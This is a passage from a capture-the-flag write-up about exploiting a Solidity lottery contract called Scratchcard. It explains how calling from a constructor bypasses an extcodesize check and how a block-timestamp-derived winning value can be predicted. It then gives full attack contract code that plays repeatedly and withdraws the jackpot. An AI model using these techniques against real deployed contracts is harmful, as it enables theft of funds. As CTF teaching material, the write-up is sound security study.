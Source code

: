 ~~~solidity
    function collectMegaJackpot(uint256 _amount) public notContract ctf{
        require(checkIfMegaJackpotWinner(), "User Not Winner");
        require(2 * cost - _amount > 0, "Winners May Only Withdraw Up To 2x Their Scratchcard Cost");
        winCount[msg.sender] = 0;
        msg.sender.transfer(_amount);
    }

    function () public payable ctf{
        play();
    }

}
~~~

This contract is a bit trickier, we see a bit of inline assembly being used to check the code size of calling address.

~~~solidity
    uint256 size;
    assembly { size := extcodesize(account) }
~~~

This can be used to show us if we are being called from the contract, but it can be bypassed. We can do this by calling victim contract from the constructor of our attack contract (since constructor sets contract code during its runtime `extcodesize` is going to be 0).

Another thing to note is that `(now%10**8)*10**10 == msg.value` is being used to check if we are the winner. But since, with our contract check bypass, we can call Raffle from the contract if we do the same calculation we will get the required message value. The `now` is just alias for `block.timestamp` and will be the same for all transactions/function calls in the same block.

So let's write attack code:

~~~solidity
pragma solidity 0.4.24;

import "./Scratchcard .sol";

contract Attack2{
    address owner;
    Scratchcard game = Scratchcard(0x8b8450970A7C25D7517100EEfF0Cb23357c50c86);

    constructor() public payable {
        owner = tx.origin;
        uint val = (now%10**8)*10**10;
        for (uint i=0; i<25; i++) {
            game.play.value(val)();
        }
        game.collectMegaJackpot(2* val - 1);
    }

    function withdraw() public {
        if (msg.sender == owner) {
            msg.sender.transfer(address(this).balance); 
        }
    }

    function () public payable {}
}


pragma solidity 0.4.24;

import "./Attack.sol";

~~~